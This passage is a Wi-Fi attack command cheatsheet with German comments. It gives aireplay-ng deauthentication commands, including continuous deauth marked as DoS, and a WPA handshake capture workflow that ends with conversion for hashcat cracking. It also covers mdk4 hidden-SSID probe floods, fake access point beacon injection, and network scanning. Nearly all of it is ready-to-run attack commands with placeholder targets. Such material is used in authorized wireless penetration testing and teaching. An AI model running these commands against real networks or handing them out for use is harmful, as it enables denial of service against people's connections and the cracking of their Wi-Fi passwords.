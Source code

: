 
## 9. Command Cheatsheet

### Deauthentication

```bash
# Targeted Deauth (spezifischer Client)
aireplay-ng --deauth 10 -a <AP_MAC> -c <CLIENT_MAC> wlan0

# Broadcast Deauth (alle Clients)
aireplay-ng --deauth 10 -a <AP_MAC> wlan0

# Continuous Deauth (DoS)
aireplay-ng --deauth 0 -a <AP_MAC> wlan0

# Deauths monitoren
tshark -i wlan0 -Y "wlan.fc.type_subtype == 0x0c"
```

### Handshake Capturing

```bash
# Setup
iw dev wlan0 set channel <CH>
mkdir -p /tmp/handshakes && cd /tmp/handshakes

# Capture starten
airodump-ng -c <CH> --bssid <AP_MAC> -w handshake wlan0

# (In anderem Terminal) Deauth für Handshake
aireplay-ng --deauth 5 -a <AP_MAC> -c <CLIENT_MAC> wlan0

# Handshake verifizieren
aircrack-ng handshake-01.cap

# Für hashcat konvertieren
hcxpcapngtool -o handshake.hc22000 handshake-01.cap
```

### Active Probing

```bash
# Hidden SSID Probe Flood
mdk4 wlan0 p -t <AP_MAC> -f /tmp/ssid_list.txt

# Beacon Injection (Fake AP)
mdk4 wlan0 b -n "FakeSSID" -c 6

# Active Scan (zeigt alle APs)
iw dev wlan0 scan | grep -i ssid
iwlist wlan0 scan
```

